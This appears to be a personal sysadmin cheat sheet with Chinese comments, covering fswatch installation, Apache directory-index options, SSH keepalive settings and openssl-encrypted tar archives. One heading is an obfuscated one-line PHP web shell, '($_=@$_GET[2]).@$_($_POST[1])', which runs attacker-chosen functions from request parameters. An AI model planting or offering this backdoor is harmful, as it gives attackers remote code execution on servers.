 # fswatch
`go install github.com/codeskyblue/fswatch`

# httpd
* [http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions](http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions)

```

    Options Indexes FollowSymLinks
    IndexOptions FoldersFirst HTMLTable NameWidth=* VersionSort
```


# ($_=@$_GET[2]).@$_($_POST[1])


# ssh connection alive
## server
```

	TCPKeepAlive yes #表示TCP保持连接不断开
	ClientAliveInterval 300 #指定服务端向客户端请求消息的时间间隔，单位是秒，默认是0，不发送。设置个300表示5分钟发送一次（注意，这里是服务端主动发起），然后等待客户端响应，成功，则保持连接。
	ClientAliveCountMax 3 #指服务端发出请求后客户端无响应则自动断开的最大次数。使用默认给的3即可。
```
### 注意：TCPKeepAlive必须打开，否则直接影响后面的设置。ClientAliveInterval设置的值要小于各层防火墙的最小值，不然，也就没用了。最后要重启sshd服务才生效
## client
```

	Host * #表示需要启用该规则的服务端（域名或ip）
		ServerAliveInterval 60 #表示没60秒去给服务端发起一次请求消息（这个设置好就行了）
		ServerAliveCountMax 3 #表示最大连续尝试连接次数（这个基本不用设置）
```
## one time
`ssh -o ServerAliveInterval=30 user@host`


# secure tar
```

	tar czf - package | openssl des3 -salt -k youPassword -out tar.tar.gz
	#dd if=tar.tar.gz |openssl tar -d -k youPassword |tar zxf -
	openssl des3 -d -salt -k youPassword -in tar.tar.gz | tar xzf -
```
